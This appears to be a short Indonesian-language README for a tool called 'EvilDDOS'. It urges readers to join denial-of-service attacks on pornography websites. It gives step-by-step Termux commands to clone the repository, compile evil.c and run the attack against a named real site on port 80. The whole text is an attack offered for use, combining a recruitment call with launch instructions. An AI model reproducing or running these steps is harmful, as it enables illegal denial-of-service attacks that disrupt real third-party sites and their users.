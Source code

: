 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM CYBER PHOENIX🙏

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd evilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
